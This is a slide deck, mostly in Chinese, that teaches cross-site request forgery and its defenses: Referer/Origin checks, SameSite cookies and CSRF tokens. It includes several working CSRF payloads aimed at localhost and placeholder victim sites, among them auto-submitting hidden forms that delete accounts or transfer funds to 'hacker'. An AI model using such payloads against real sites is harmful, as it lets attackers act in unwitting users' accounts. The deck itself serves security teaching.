


+++
weight = 50
+++

{}

## CSRF

---

<ul>
  <li class="fragment">Cross-site Request Forgery</li>
  <li class="fragment">偽造使用者的惡意請求</li>
</ul>

---

## DEMO
#### [Lab: csrf-demo](https://github.com/hlc23/CS-Labs/tree/main/csrf-demo)

{}

---

{}

## How CSRF works?

---

利用請求會自動帶上 cookie 的特性  
<span class="fragment">讓使用者在不知情的情況下發送惡意請求</span>

---




---

- A relevant action. 
- Cookie-based session handling.
- No unpredictable request parameters.

---

```html
<!-- localhost:5001 -->
<form id="csrfForm" action="http://localhost:5000/delete_account" method="POST">
    <input type="hidden" name="csrf" value="attack">
</form>
<script>
    window.addEventListener('load', function () {
        document.getElementById('csrfForm').submit();
    });
</script>
```

---

```js
// localhost:5001
window.onload = function() {
    fetch('http://localhost:5000/delete_account', {
        method: 'POST',
        credentials: 'include'  // sends cookies
    }).then(response => {
        console.log('CSRF request sent');
    }).catch(error => {
        console.error('Error:', error);
    });
};
```

---

一個比較不危險的 CSRF 例子  
[superlogout](https://superlogout.com/)

{}
img, iframe 發送 GET 請求的範例
{}

---

### GET by html tags

```html
<a href="http://victim.com/logout">Click me!</a> <!-- User has to click -->

<script src="http://victim.com/transfer_funds?amount=1000&to=attacker"></script>
<link rel="stylesheet" href="http://victim.com/update_profile?bio=malicious">
<iframe src="http://victim.com/delete_post?id=123" style="display:none;"></iframe>
...
```

{}

---

{}

## Prevent CSRF

---

Check where the request comes from

---

### Referer / Origin header check
- 檢查請求的來源

---

```http {hl_lines=[5]}
GET /ajax/libs/mathjax/2.7.1/MathJax.js HTTP/1.1
Host: cdnjs.cloudflare.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64) ...
Accept: */*
Referer: https://hlc23.dev/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

---

<ul>
    <li class="fragment">不一定有</li>
    <li class="fragment">可能被偽造</li>
    <li class="fragment">容易誤判</li>
</ul>

<span class="fragment">無法完全防護</span>

{}

---

{}

- A relevant action. 
- <span class="fragment highlight-green">Cookie-based session handling.</span>
- No unpredictable request parameters.

<span class="fragment">Samesite Cookie</span>

---

### Samesite Cookie
- Cookie attribute
- 限制第三方網站發送請求時帶上 cookie

---

  
<span class="fragment"><span class="fragment highlight-green">SameSite</span> Cookie</span>

---

- <span class="fragment highlight-current-green" data-fragment-index="1">scheme</span>
- <span class="fragment highlight-current-green" data-fragment-index="2">registered domain</span>  

<br>
<span class="fragment highlight-current-green" data-fragment-index="1">
    <span class="fragment highlight-current-red" data-fragment-index="4">http</span></span>://<span class="fragment highlight-current-green" data-fragment-index="2"><span class="fragment highlight-current-green" data-fragment-index="5">hlc23.dev</span></span>
</span>
<br>
<span class="fragment" data-fragment-index="3">
    <span class="fragment highlight-current-red" data-fragment-index="4">
    <span class="fragment highlight-current-green" data-fragment-index="7">
    https</span></span>://<span class="fragment highlight-current-green" data-fragment-index="5"><span class="fragment highlight-current-green" data-fragment-index="8">hlc23.dev</span></span>
</span>
<br>
<span class="fragment" data-fragment-index="6">
    <span class="fragment highlight-current-green" data-fragment-index="7">https</span>://blog.<span class="fragment highlight-current-green" data-fragment-index="8">hlc23.dev</span>
</span>

---

### Samesite Cookie

---




---


<!--  -->



---

#### What is SameSite?

- 是否允許<span class="fragment highlight-green">跨站請求</span>攜帶 Cookie
- 三種模式:
<span class="fragment">
    - Strict: 完全禁止</span>
    - Lax: 部分允許(預設)</span>
    - None: 完全允許</span>
</span>

---

#### DEMO
[Lab: SameSite Cookie](https://github.com/hlc23/CS-Labs/tree/main/SameSite-cookie)

{}

---

{}

- A relevant action. 
- Cookie-based session handling.
- <span class="fragment highlight-green">No unpredictable request parameters.</span>

<span class="fragment">CSRF Token</span>

---

在每個表單中加入隨機產生的 token  
伺服器驗證 token 是否正確

---

```html
<form action="/transfer_funds" method="POST">
    <input type="hidden" name="csrf_token" value="{{ csrf_token }}">
    Amount: <input type="text" name="amount">
    To: <input type="text" name="to">
    <input type="submit" value="Transfer">
</form>
```

---

```python 
@app.route("/transfer_funds", methods=["GET", "POST"])
def transfer_funds():
    if request.method == "POST":
        csrf_token = request.form.get("csrf_token")
        if csrf_token != session.get("csrf_token"):
            return "CSRF token is invalid", 403
    session["csrf_token"] = secrets.token_hex(16)
    return render_template("transfer_funds.html", 
            csrf_token=session["csrf_token"])
```

{}


---

{}

## Labs

---

- Lab: [CORS-CSRF](https://github.com/hlc23/CS-Labs/tree/main/CORS-CSRF)
- Lab: [Method-based-CSRF-Bypass](https://github.com/hlc23/CS-Labs/tree/main/Method-based-CSRF-Bypass)

{}
```js
fetch('http://localhost:8080/api/data', {
method: 'POST',
headers: {
    'Content-Type': 'application/json'
},
body: JSON.stringify({
    "action": "malicious_data",
    "user": "attacker"
})
})
.then(response => response.json())
.then(result => {
document.getElementById('result').innerHTML = '<pre>' + JSON.stringify(result, null, 2) + '</pre>';
})
.catch(error => {
document.getElementById('result').innerHTML = 'Error: ' + error.message;
});
```
```html
<form action="http://localhost:5000/transfer" method="POST" style="display:none;">
    <input type="hidden" name="amount" value="100">
    <input type="hidden" name="to_account" value="hacker">
</form>
<script>
    document.forms[0].submit();
</script>
```
{}


{}